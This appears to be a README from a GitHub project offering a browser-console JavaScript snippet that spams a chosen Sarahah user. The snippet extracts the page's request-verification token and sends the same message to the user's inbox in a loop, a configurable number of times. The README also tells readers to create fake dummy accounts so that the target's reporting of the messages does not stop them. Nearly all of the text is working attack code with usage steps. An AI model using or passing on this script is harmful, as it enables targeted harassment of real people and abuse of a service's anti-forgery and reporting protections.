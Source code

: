 # Spam Sarahah
Use this to spam sarahah users, because i got tired of all the sarahah statuses

<img src="hahahaha.PNG"/>

##### NOTE: Sarahah allows users to report messages, so some users might not recieve messages, if you think that is the case, it is recommended that you log in your account in another tab(obviously a fake/dummy account). If that account is reported by the user too, create another ;)



## Steps
1. Open the sarahah page of the user you want to spam
2. Open `console` by pressing f12
3. Copy and paste the following script in console.
    
```    
var number = 50;
var message = 'hello sarahah';
var userId = $('#RecipientId').val();
verifTk = document.body.innerHTML.split("__RequestVerificationToken: $('")[1].split("').attr")[0];
for(i=0;i<number;i++){
    $.ajax({
        url: '/Messages/SendMessage',
        type: 'POST',
        cache: false,
        data: {
            __RequestVerificationToken: $(verifTk).attr('value'),
            userId: userId,
            text: message
        },
        success: function () {
           console.log("posted");
        },
        error: function () {
            console.log("error");
        }
    })
}
```

4. you will see `posted` in console, the number behind posted represents th number of times it has been posted.
5. There is no point 5, I am just adding this because a list with 5 points looks good. No, I don't have OCD.

#### Replace the top of the script with any number. the user gets the same message that number of times.
#### Replcae message with any message of your choice, but remember that the message should be placed between quotes.
